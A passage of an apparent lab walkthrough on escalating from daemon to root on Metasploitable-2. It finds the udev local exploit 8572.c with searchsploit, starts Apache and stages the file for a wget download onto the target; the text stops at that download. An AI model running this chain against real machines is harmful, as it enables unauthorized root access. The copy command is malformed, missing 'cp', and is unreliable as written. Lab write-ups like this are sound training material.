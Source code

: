**GCC — Used for compiling exploits**

**which gcc**

![](https://cdn-images-1.medium.com/max/800/1*5SSdzIfMZppT9YbM7QDYgA.png)

**WGET — Used to download the exploit in the vulnerable machine**

**which wget**

![](https://cdn-images-1.medium.com/max/800/1*0ByHLRuagNwAE3qCu4sO7A.png)

lets, see all the running processes.

**ps aux**

![](https://cdn-images-1.medium.com/max/800/1*iS0vOeECv2rmjZj958t33g.png)

from the above processes, we can move forward to see publicly available exploits.

but, as we are using Metasploitable-2, we already know the vulnerable component, we will use that.

The vulnerable component is “**udev**”, let's grep for it from the running processes.

![](https://cdn-images-1.medium.com/max/800/1*QTmbzx0YWnVbDkeiHBQK5w.png)

Searching for exploits on **searchsploit**

**searchsploit udev**

![](https://cdn-images-1.medium.com/max/800/1*pB6PTE-1qlr6WAI-orRsxA.png)

We are interested in the exploit for “local privilege Escalation(2) — /exploits/linux/local/8572.c”

**cat /usr/share/exploitdb/exploits/linux/local/8572.c**

Exploit usage.

![](https://cdn-images-1.medium.com/max/800/1*2aWCx6wvUu36RcrjN1dRSg.png)

**Steps for escalating daemon to root.**

1.  Starting local Apache server — apache2

**service apache2 start**

![](https://cdn-images-1.medium.com/max/800/1*0QFy6Z9tLcfGIgzIG8UlYw.png)

2\. Coping the exploit into the apache server public directory

Exploit directory — /usr/share/exploitdb/exploits/linux/local/

Apache servers public directory: /var/www/html

**sudo /usr/share/exploitdb/exploits/linux/local/8572.c /var/www/html/ehsahil.c**

![](https://cdn-images-1.medium.com/max/800/1*9tJt9cfsIiOGuL5hYd45gg.png)

3\. Copying the exploit file into the vulnerable machine using wget.
